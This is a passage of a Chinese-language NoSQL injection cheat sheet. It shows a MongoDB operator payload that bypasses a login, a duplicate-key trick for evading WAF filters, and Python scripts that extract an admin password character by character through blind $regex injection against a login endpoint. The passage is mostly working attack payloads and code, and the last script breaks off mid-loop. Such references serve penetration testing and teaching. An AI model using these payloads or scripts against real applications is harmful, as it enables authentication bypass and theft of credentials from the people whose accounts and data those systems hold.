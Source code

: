使用 "`$in`" 查询操作符提取数据。

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```

### WAF 和过滤器

**移除前置条件**：

在 MongoDB 中，如果文档中包含重复键，则只有最后一个键的值会生效。

```js
{"id":"10", "id":"100"} 
```

在这种情况下，"id" 的最终值将是 "100"。

## 盲注 NoSQL

### POST 请求带 JSON 主体

Python 脚本：

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'OK' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```

### POST 请求带 urlencoded 主体

Python 脚本：

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"
headers={'content-type': 'application/x-www-form-urlencoded'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|','&','$']:
            payload='user=%s&pass[$regex]=^%s&remember=on' % (username, password + c)
```